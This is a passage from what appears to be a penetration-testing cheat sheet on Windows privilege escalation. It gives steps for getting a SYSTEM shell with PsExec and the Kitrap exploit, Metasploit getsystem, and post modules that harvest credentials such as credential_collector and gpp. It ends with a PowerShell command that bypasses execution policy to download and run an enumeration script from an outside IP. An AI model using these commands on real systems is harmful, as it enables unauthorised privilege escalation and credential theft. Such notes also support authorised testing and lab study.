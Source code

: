 And then the **cmd** with SYSTEM privs pops up.

**Vista and Newer**

You first need to upload **PsExec.exe** and then you run:
<code>psexec -i -s cmd.exe</code>

**Kitrap**

On some machines the at 20:20 trick does not work. It never works on Windows 2003 for example. Instead you can use Kitrap. Upload both files and execute vdmaillowed.exe. I think it only works with GUI.

<code>vdmallowed.exe
vdmexploit.dll</code>

<br>
#### Using Metasploit

So if you have a metasploit meterpreter session going you can run getsystem.
Post modules

Some interesting metasploit post-modules

First you need to background the meterpreter shell and then you just run the post modules.
You can also try some different post modules.

```
use exploit/windows/local/service_permissions
post/windows/gather/credentials/gpp
run post/windows/gather/credential_collector 
run post/multi/recon/local_exploit_suggester
run post/windows/gather/enum_shares
run post/windows/gather/enum_snmp
run post/windows/gather/enum_applications
run post/windows/gather/enum_logged_on_users
run post/windows/gather/checkvm
```

-- PsExec
https://pen-testing.sans.org/blog/2013/03/27/psexec-python-rocks

<br>
#### Post Exploit Enum Scripts:

[JAWS](https://github.com/411Hall/JAWS) - Just Another Windows (Enum) Script

Usage:

Run from within CMD shell and write out to file.

    powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://10.10.15.24/jaws.ps1','C:\Windows\temp\jaws.ps1')
    CMD C:\Windows\temp> powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt

Run from within CMD shell and write out to screen.

    CMD C:\temp> powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1
